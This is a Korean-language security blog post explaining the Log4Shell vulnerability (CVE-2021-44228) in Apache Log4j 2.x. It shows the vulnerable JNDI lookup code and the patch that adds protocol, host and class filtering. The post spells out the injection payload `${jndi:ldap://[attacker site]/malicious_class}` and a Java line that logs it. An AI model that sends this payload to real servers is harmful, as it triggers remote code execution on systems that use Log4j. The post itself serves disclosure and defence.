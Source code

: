 ```yaml
---
title: "[하루한줄] CVE-2021-44228: log4shell-전 세계 서버를 공격 가능한 최악의 log4j 취약점"
author: L0ch
tags: [L0ch, jndi injection, log4j, log4shell, cve, cve-2021-44228, rce, java]
categories: [1day1line]
date: 2021-12-12 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

https://xz.aliyun.com/t/10649

## Target

- Apache Log4j 2.x <= 2.15.0-rc1

## Explain
log4j는 전 세계적으로 인기있는 logging library로 Mincraft, Apple iCloud, Apache, Twitter, Steam, Amazon, Tesla 등 현재 수많은 소프트웨어에서 사용되고 있습니다. 이러한 log4j에서 원격 코드 실행이 가능한 JNDI Injection 취약점이 발견되었습니다.

해당 취약점의 이름은 log4shell로 명명되었으며 log4j를 사용하는 소프트웨어 대부분을 공격 가능한 높은 파급력과 비교적 간단하다는 점 때문에 취약점의 위험성을 평가하는 지표인 cvss 점수의 최고점 10.0이 부여되었습니다. log4shell 취약점의 영향을 받는 소프트웨어는 [링크](https://github.com/YfryTchsGD/Log4jAttackSurface)에서 확인할 수 있으며, 2021/12/12 기준 지속적으로 업데이트되고 있습니다.

<br>

취약점은 [JndiManager.java](https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#diff-271353c1076e53f6893261e4420de27d34588bfd782806b5c66a3465c43b7f51) 의 [JNDI lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html) 기능에서 발견되었습니다.

```java
public <T> T lookup(final String name) throws NamingException {
        return (T) this.context.lookup(name);
}
```

JNDI(Java Naming and Directory Interface)는 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격지 서버의 객체를 바인딩해 애플리케이션에서 접근할 수 있는 기능입니다. 이러한 외부 디렉터리 서비스 프로토콜은 대표적으로 LDAP(Lightweight Directory Access Protocol)과 LDAPS(Secure LDAP)이 있습니다.

해당 lookup 기능의 name 매개변수에 `${jndi:ldap://[attacker site]/malicious_class}` 와 같이 해커가 제어하는 서버의 악성 클래스 경로를 전달하게 되면 lookup은 `${}` 안의 내용을 파싱해 실행합니다. 이때 JNDI를 통한 외부 디렉터리 서비스에 대한 검증이 존재하지 않아 해커의 악성 클래스를 바인딩하게 되고 악성 클래스에 포함된 임의 코드를 원격에서 실행할 수 있습니다.

```java
String userInput = "${jndi:ldap://[attacker site]/malicious_class}";
logger.info("log {} ", userInput)
```

위와 같이 취약한 서버가 log4j를 통해 request와 같은 user input을 기록하는 경우 원격 코드 실행이 트리거 됩니다.

> JNDI와 JNDI Injection은 [[하루한줄\] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점](https://hackyboiz.github.io/2021/01/26/l0ch/2021-01-26/)에서도 활용되었습니다.





패치는 log의 매개변수 name에 전달되는 프로토콜 및 ldap 서버, 클래스에 대한 필터를 추가하는 코드를 추가하는 것으로 이루어졌습니다.

```java
public synchronized <T> T lookup(final String name) throws NamingException {
        try {
            URI uri = new URI(name);
            if (uri.getScheme() != null) {
                if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                    LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                    return null;
                }
                if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                    if (!allowedHosts.contains(uri.getHost())) {
                        LOGGER.warn("Attempt to access ldap server not in allowed list");
                        return null;
                    }
                    Attributes attributes = this.context.getAttributes(name);
                    if (attributes != null) {
                        // In testing the "key" for attributes seems to be lowercase while the attribute id is
                        // camelcase, but that may just be true for the test LDAP used here. This copies the Attributes
                        // to a Map ignoring the "key" and using the Attribute's id as the key in the Map so it matches
                        // the Java schema.
                        Map<String, Attribute> attributeMap = new HashMap<>();
                        NamingEnumeration<? extends Attribute> enumeration = attributes.getAll();
                        while (enumeration.hasMore()) {
                            Attribute attribute = enumeration.next();
                            attributeMap.put(attribute.getID(), attribute);
                        }
                        Attribute classNameAttr = attributeMap.get(CLASS_NAME);
                        if (attributeMap.get(SERIALIZED_DATA) != null) {
                            if (classNameAttr != null) {
                                String className = classNameAttr.get().toString();
                                if (!allowedClasses.contains(className)) {
                                    LOGGER.warn("Deserialization of {} is not allowed", className);
                                    return null;
                                }
                            } else {
                                LOGGER.warn("No class name provided for {}", name);
                                return null;
                            }
                        } else if (attributeMap.get(REFERENCE_ADDRESS) != null
                                || attributeMap.get(OBJECT_FACTORY) != null) {
                            LOGGER.warn("Referenceable class is not allowed for {}", name);
                            return null;
                        }
                    }
                }
            }
        } catch (URISyntaxException ex) {
            // This is OK.
```

해당 패치의 커밋로그는 [링크](https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3#) 에서 확인할 수 있습니다.

## Reference

https://logging.apache.org/log4j/2.x/security.html

https://github.com/feihong-cs/JNDIExploit

https://github.com/YfryTchsGD/Log4jAttackSurface

https://unit42.paloaltonetworks.com/apache-log4j-vulnerability-cve-2021-44228/

https://isc.sans.edu/diary/rss/28120